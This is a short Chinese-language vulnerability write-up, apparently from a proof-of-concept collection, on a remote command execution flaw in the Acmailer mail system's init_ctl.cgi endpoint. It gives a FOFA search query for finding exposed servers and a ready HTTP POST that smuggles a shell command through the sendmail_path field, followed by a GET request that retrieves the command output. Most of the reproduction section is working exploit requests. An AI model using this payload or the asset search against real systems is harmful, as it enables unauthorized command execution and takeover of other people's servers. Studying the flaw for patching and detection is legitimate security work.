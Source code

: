 # Acmailer邮件系统init_ctl存在远程命令执行漏洞

# 一、漏洞简介
Acmailer 是一款用于支持邮件服务的CGI软件。Acmailer邮件系统 init_ctl.cgi接口处远程命令执行,攻击者可通过此漏洞获取服务器权限。

# 二、影响版本
+ Version≤Acmailer 4.0.2

# 三、资产测绘
+ fofa`body="CGI acmailer"`
+ 特征

![1708963927312-b5ae3848-2277-44b8-b799-6ef34544756b.png](./img/WasJxdH_XZeC7KZp/1708963927312-b5ae3848-2277-44b8-b799-6ef34544756b-033862.png)

# 四、漏洞复现
```plain
POST /init_ctl.cgi HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Connection: close
Content-Length: 150
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

admin_name=u&admin_email=m@m.m&login_id=l&login_pass=l&sendmail_path=|id > 13619.txt | bash&homeurl=http://&mypath=e
```

![1708963961029-9e3fb68f-505d-474c-a060-38ff45f7e2db.png](./img/WasJxdH_XZeC7KZp/1708963961029-9e3fb68f-505d-474c-a060-38ff45f7e2db-076657.png)

获取命令执行结果

```plain
GET /13619.txt HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Connection: close
Cookie: sid=a6d9c99e3ae98d10ee34acc24af3f536
Accept-Encoding: gzip, deflate
```

![1708963996773-62feb337-c501-4d6c-8e66-47953f68b34d.png](./img/WasJxdH_XZeC7KZp/1708963996773-62feb337-c501-4d6c-8e66-47953f68b34d-017278.png)



> 更新: 2024-02-29 23:57:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wanndz3h73av7n0s>